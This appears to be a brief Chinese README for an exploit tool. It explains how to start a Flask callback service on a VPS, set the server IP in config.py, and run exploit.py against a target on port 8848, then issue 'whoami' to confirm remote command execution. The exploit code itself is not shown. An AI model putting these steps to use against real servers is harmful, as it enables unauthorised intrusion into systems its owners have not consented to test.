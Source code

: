 改动启动flask的ip+port为固定、输出post_json

```
app.run('0.0.0.0', 8888)
```

使用：

```
pip3 install -r requirements.txt
python3 service.py 启动flask服务
```

更改config.py中
server_host = "vps ip"

```
server_host='服务器ip'
server_port无需更改
```

执行exploit.py：

```
python3 exploit.py
http://x.x.x.x:8848
whoami
```

